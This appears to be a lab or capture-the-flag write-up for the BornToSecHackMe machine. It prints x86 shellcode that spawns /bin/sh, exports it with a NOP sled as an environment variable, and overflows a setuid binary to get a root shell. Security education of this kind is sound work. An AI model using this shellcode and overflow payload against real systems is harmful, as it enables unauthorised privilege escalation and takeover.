 Starting at the final step, there's another way to exploit our file:
# shellcode

Another option we can use in case of buffer overflows is a shellcode attack. The piece of hexadecimal code that we use as a payload for execution has already been pre-made for us in [shellcode injection](https://0xrick.github.io/binary-exploitation/bof5/):
``` shell
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
To export this as an environmental variable, we include <code>NOP</code> (<code>\x90</code>) within the shellcode. These instructions act as padding, ensuring that the shellcode is properly aligned within the buffer or memory space it occupies. Additionally, they make the shellcode easier to locate in environments where memory layout may shift.
``` shell
zaz@BornToSecHackMe:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
zaz@BornToSecHackMe:~$ cc addr.c -o addr
zaz@BornToSecHackMe:~$ ./addr
SCODE set at 0xbffff87f
```

# exploit
The exploit is constructed using the shellcode address and offset values to cause an overflow.
``` shell
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "F"*140 + "\xbf\xff\xf8\x7f"[::-1]')
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF���
$ whoami
root
```